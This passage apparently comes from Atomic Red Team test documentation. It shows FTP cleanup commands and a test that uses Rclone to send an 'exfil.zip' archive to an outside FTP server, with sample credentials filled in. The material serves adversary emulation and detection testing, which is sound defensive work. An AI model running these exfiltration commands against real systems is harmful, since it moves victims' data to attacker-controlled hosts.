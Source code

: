 #### Cleanup Commands:

```powershell
$ftp = "ftp://#{ftp_server}/"
try {foreach ($file in (dir "$env:windir\temp" "*.7z"))
{$uri = New-Object System.Uri($ftp+$file.name)
 $ftp_del = [System.Net.FtpWebRequest]::create($uri)
 $ftp_del.Credentials = New-Object System.Net.NetworkCredential('#{username}','#{password}')
 $ftp_del.Method = [System.Net.WebRequestMethods+Ftp]::DeleteFile
 $ftp_del.GetResponse()}} catch{}
```

<br/>
<br/>

## Atomic Test #7 - Exfiltration Over Alternative Protocol - FTP - Rclone

Rclone may be used by an adversary to exfiltrate data to a publicly hosted FTP server.
[Reference](https://thedfirreport.com/2021/03/29/sodinokibi-aka-revil-ransomware/)

**Supported Platforms:** Windows

**auto_generated_guid:** b854eb97-bf9b-45ab-a1b5-b94e4880c56b

#### Inputs:

| Name       | Description              | Type    | Default Value             |
| ---------- | ------------------------ | ------- | ------------------------- |
| ftp_server | Your own ftp server      | string  | ftp.dlptest.com           |
| ftp_pass   | Your FTP user's password | string  | rNrKYTX9g7z3RgJRmxWuGHbeu |
| ftp_user   | Your FTP username        | string  | dlpuser                   |
| ftp_port   | Your FTP's port          | integer | 21                        |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
$rclone_bin = Get-ChildItem C:\Users\Public\Downloads\ -Recurse -Include "rclone.exe" | Select-Object -ExpandProperty FullName
$exfil_pack = Get-ChildItem C:\Users\Public\Downloads\ -Recurse -Include "exfil.zip" | Select-Object -ExpandProperty FullName
&$rclone_bin config create ftpserver "ftp" "host" #{ftp_server} "port" #{ftp_port} "user" #{ftp_user} "pass" #{ftp_pass}
&$rclone_bin copy --max-age 2y $exfil_pack ftpserver --bwlimit 2M -q --ignore-existing --auto-confirm --multi-thread-streams 12 --transfers 12 -P --ftp-no-check-certificate
```

#### Dependencies: Run with `powershell`!

##### Description: Check if the exfil package exists
